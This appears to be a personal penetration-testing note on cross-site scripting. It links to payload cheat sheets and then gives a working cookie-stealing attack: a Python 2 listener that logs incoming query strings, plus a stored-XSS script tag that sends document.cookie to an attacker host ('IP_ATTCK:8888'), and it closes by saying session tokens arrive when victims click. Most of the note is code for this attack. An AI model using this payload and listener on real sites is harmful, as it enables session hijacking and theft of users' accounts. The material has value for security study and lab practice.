 ```yaml
---
title: XSS attacks 💀
---
```

> You should check [XSS Theory 🍣](xss_theory.md)

## Testing Payloads

- [PortSwigger Theory and examples](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [OWASP collection](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

>Check my note [payloadbox XSS Payload List 🥝](/notes/Payloads/XSS/payloadbox.md)

## Scripts

- When performing an stored XSS, we have the following useful script (python2):

```python
#!/usr/bin/env python
# POC for cookie stealing through XSS
# Should work with:
# <script>
#   image = new Image();
#   image.src='http://X.X.X.X:8888/?'+document.cookie;
# </script>

# Written by Ahmed Shawky @lnxg33k

from BaseHTTPServer import BaseHTTPRequestHandler, HTTPServer
from urlparse import urlparse, parse_qs
from datetime import datetime


class MyHandler(BaseHTTPRequestHandler):

    def do_GET(self):
        query_components = parse_qs(urlparse(self.path).query)
        print ""
        print "%s - %s\t%s" % (
            datetime.now().strftime("%Y-%m-%d %I:%M %p"),
            self.client_address[0],
            self.headers['user-agent'])
        print "-------------------"*6
        for k, v in query_components.items():
            print "%s\t\t\t%s" % (k.strip(), v)

        # print query_components
        # self.send_response(500)

        # self.send_header("Content-type", "text/html")
        # self.end_headers()
        # self.wfile.write(c)

        return

    def log_message(self, format, *args):
        return

if __name__ == "__main__":
    try:
        server = HTTPServer(('0.0.0.0', 8888), MyHandler)
        print('Started http server')
        server.serve_forever()
    except KeyboardInterrupt:
        print('^C received, shutting down server')
        server.socket.close()
```

- Execute it
- Then we insert on the webpage the following XSS:

```shell
<script>
   image = new Image();
   image.src='http://IP_ATTCK:8888/?'+document.cookie;
</script>
```

- Then we should get some session tokens like this (when someone clicks on it):

![](Pasted%20image%2020240210145953.png)
